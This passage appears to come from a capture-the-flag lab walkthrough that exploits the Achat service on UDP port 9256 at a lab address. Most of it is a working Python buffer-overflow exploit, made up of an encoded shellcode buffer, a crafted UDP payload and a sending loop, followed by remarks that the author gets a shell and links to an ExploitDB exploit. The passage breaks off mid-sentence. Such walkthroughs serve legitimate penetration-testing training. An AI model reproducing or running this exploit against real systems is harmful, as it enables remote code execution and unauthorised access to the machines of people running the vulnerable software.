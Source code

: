 ```python
buf += b"\x50\x6e\x6e\x6d\x50\x61\x6b\x4f\x76\x75\x71\x4e"
buf += b"\x51\x4e\x39\x6f\x7a\x6c\x4c\x64\x4a\x6f\x64\x45"
buf += b"\x30\x70\x4b\x4f\x79\x6f\x49\x6f\x78\x69\x65\x4b"
buf += b"\x69\x6f\x6b\x4f\x39\x6f\x6d\x31\x35\x73\x4c\x69"
buf += b"\x35\x76\x32\x55\x56\x61\x48\x43\x47\x4b\x67\x70"
buf += b"\x6d\x4d\x6e\x4a\x4b\x5a\x31\x58\x37\x36\x73\x65"
buf += b"\x37\x4d\x35\x4d\x79\x6f\x6a\x35\x4d\x6c\x7a\x66"
buf += b"\x43\x4c\x6b\x5a\x53\x50\x6b\x4b\x69\x50\x52\x55"
buf += b"\x5a\x65\x45\x6b\x30\x47\x5a\x73\x54\x32\x50\x6f"
buf += b"\x70\x6a\x6d\x30\x70\x53\x39\x6f\x6a\x35\x41\x41"

def main (buf):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_address = ('10.10.10.74', 9256)

    fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
    p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
    p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
    p += "\x62" + "A"*45
    p += "\x61\x40"
    p += "\x2A\x46"
    p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
    p += "\x61\x43" + "\x2A\x46"
    p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
    p += buf + "A" * (1152 - len(buf))
    p += "\x00" + "A"*10 + "\x00"

    print bcolours.GREEN + "[" + bcolours.TURQ + "+" + bcolours.GREEN + "]" + bcolours.ENDC + " BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER"

    i=0
    while i<len(p):
        if i > 172000:
            time.sleep(1.0)
        sent = sock.sendto(p[i:(i+8192)], server_address)
        i += sent
    sock.close()

if __name__=='__main__':
    main(buf)

```

- and we get a shell!!
##### Another Exploitation Method
- Instead of using the previous exploit, we can also decide to use the one at ExploitDB as well [https://www.exploit-db.com/exploits/36025](https://www.exploit-db.com/exploits/36025) and [https://tenaka.gitbook.io/pentesting/boxes/achat](https://tenaka.gitbook.io/pentesting/boxes/achat)
- so we generate payload using 
